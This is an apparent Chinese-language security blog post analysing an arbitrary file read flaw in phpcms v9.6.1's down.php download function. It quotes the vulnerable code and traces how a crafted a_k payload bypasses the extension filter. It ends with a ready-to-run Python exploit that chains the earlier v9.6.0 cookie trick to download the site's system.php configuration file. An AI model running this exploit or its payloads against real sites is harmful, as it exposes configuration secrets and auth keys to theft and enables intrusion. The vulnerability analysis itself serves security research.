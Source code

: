 phpcms v9.6.1 爆出的任意文件读取漏洞， 来一起分析以下，这次漏洞可以说和9.6.0爆出来的sqli注入漏洞有一些联系，漏洞文件和漏洞利用方法都是一样的，只是这次漏洞点在down.php的download函数


我们定位到漏洞函数`/phpcms/modules/content/down.php` Line 103-127

```
public function download() {
	$a_k = trim($_GET['a_k']);
	$pc_auth_key = md5(pc_base::load_config('system','auth_key').$_SERVER['HTTP_USER_AGENT'].'down');
	$a_k = sys_auth($a_k, 'DECODE', $pc_auth_key);
	if(empty($a_k)) showmessage(L('illegal_parameters'));
	unset($i,$m,$f,$t,$ip);
	$a_k = safe_replace($a_k);
	parse_str($a_k);		
	if(isset($i)) $downid = intval($i);
	if(!isset($m)) showmessage(L('illegal_parameters'));
	if(!isset($modelid)) showmessage(L('illegal_parameters'));
	if(empty($f)) showmessage(L('url_invalid'));
	if(!$i || $m<0) showmessage(L('illegal_parameters'));
	if(!isset($t)) showmessage(L('illegal_parameters'));
	if(!isset($ip)) showmessage(L('illegal_parameters'));
	$starttime = intval($t);
	if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$f) || strpos($f, ":\\")!==FALSE || strpos($f,'..')!==FALSE) showmessage(L('url_error'));
	$fileurl = trim($f);
	if(!$downid || empty($fileurl) || !preg_match("/[0-9]{10}/", $starttime) || !preg_match("/[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}/", $ip) || $ip != ip()) showmessage(L('illegal_parameters'));	
	$endtime = SYS_TIME - $starttime;
	if($endtime > 3600) showmessage(L('url_invalid'));
	if($m) $fileurl = trim($s).trim($fileurl);
	if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$fileurl) ) showmessage(L('url_error'));
	//远程文件
	if(strpos($fileurl, ':/') && (strpos($fileurl, pc_base::load_config('system','upload_url')) === false)) { 
		header("Location: $fileurl");
	} else {
		if($d == 0) {
			header("Location: ".$fileurl);
		} else {
			$fileurl = str_replace(array(pc_base::load_config('system','upload_url'),'/'), array(pc_base::load_config('system','upload_path'),DIRECTORY_SEPARATOR), $fileurl);
			$filename = basename($fileurl);
			//处理中文文件
			if(preg_match("/^([\s\S]*?)([\x81-\xfe][\x40-\xfe])([\s\S]*?)/", $fileurl)) {
				$filename = str_replace(array("%5C", "%2F", "%3A"), array("\\", "/", ":"), urlencode($fileurl));
				$filename = urldecode(basename($filename));
			}
			$ext = fileext($filename);
			$filename = date('Ymd_his').random(3).'.'.$ext;
			$fileurl = str_replace(array('<','>'), '',$fileurl);
			file_down($fileurl, $filename);
		}
	}
}
```

这个函数开始几行代码的作用和init函数中的几乎一样，都是从parse_str 解析传入的a_k参数，但这里调用了safe_replace函数过滤。

和文件名有关的参数是$s,$f。 这两个参数都是通过parse_str解析变量得到，然后程序对$f参数过滤，过滤规则如下：

```
if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$f) || strpos($f, ":\\")!==FALSE || strpos($f,'..')!==FALSE) showmessage(L('url_error'));
$fileurl = trim($f);
```

过滤了一些黑名单，空格以及目录跳跃,之后把$s和$f作为下载文件路径:

    if($m) $fileurl = trim($s).trim($fileurl);


再把拼接后的文件名过滤一次，程序继续运行，来到最关键的一步:

```
$fileurl = str_replace(array('<','>'), '',$fileurl);
file_down($fileurl, $filename);
```

file_down函数是文件下载函数，调用readfile读取文件，在进入这个函数之前还用了一个`str_replace` 函数去除了大小括号，这就为我们绕过提供了思路，我们只需要构造 php< 或 php> 这样的后缀，就可以绕过正则， 之后被str_replace去掉了括号，就可以下载被过滤的文件后缀了。

a_k 的构造还是通过之前phpcms v9.6.0 sqli 那个构造cookie, 具体流程如下:

![image.png](http://upload-images.jianshu.io/upload_images/2159605-e8383f048af4b625.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

payload 如下:

    &i=1&m=1&d=1&modelid=2&catid=6&s=./phpcms/modules/content/down.ph&f=p%3%252%2*70C

放入src参数中，解后的`$s=./phpcms/modules/content/down.ph`, $f=p%3%252%2*70C


$f 的取值为`p%3%252%2*70C` --safe_replace->  `p%3%252%270C` --safe_replace--> `p%3%2520C` --parse_str--> `p%3%20C`  --safe_replace-->`p%3C`  --> `p<`  --str_replace-->`p`

最后和$s拼接就拼接出来了php，绕过了正则了， 过程也是比较复杂， 但payload构造骚，值得学习。



写了一个读取system.php配置文件的exp:

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
"""
phpcmsv9.6.0 sqli verify and attach poc
"""

import requests
import re
from urllib import quote

TIMEOUT = 3


def geta_k(url,payload):
    url = url if '://' in url else 'http://' + url
    url = url.split('#')[0].split('?')[0].rstrip('/').rstrip('/index.php')

    cookies = {}
    #print 'step1'
    step1 = '{}/index.php?m=wap&a=index&siteid=1'.format(url)
    #print 'step1',step1
    for c in requests.get(step1,timeout=TIMEOUT).cookies:
        if c.name[-7:] == '_siteid':
            cookie_head = c.name[:6]
            cookies[cookie_head + '_userid'] = c.value
            cookies[c.name] = c.value
            break
    else:
        return False
    
    step2 = "{}/index.php?m=attachment&c=attachments&a=swfupload_json&src={}".format(url, quote(payload))
    #print 'step2:',step2,cookies
    for c in requests.get(step2, cookies=cookies, timeout=TIMEOUT).cookies:
        if c.name[-9:] == '_att_json':
            enc_payload = c.value
            return enc_payload
            break
    else:
        return False



def download(url):
    url = url if '://' in url else 'http://' + url
    url = url.split('#')[0].split('?')[0].rstrip('/').rstrip('/index.php')

    # 以获取system.php配置文件为例，其他文件可以自行修改链接即可,只能下载cms的php文件
    payload = "&i=1&m=1&d=1&modelid=2&catid=6&s=caches/configs/system.ph&f=p%3%252%2*70C"
    a_k =  geta_k(url,payload)

    url3 = url+"/index.php?m=content&c=down&siteid=1&a=init&a_k="+a_k
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:50.0) Gecko/20100101 Firefox/50.0'}
    html = requests.get(url3,headers=headers)
    res = re.findall(r'<a href="(.*?)" class="xzs_btn"></a>',html.content)
    if res[0]:
        downfile = res[0]
    else:
        return False
    url4 = url+'/index.php'+downfile
    rep = requests.get(url4,headers=headers)
    print rep.content



if __name__ == '__main__':
    download('http://localhost/')
```


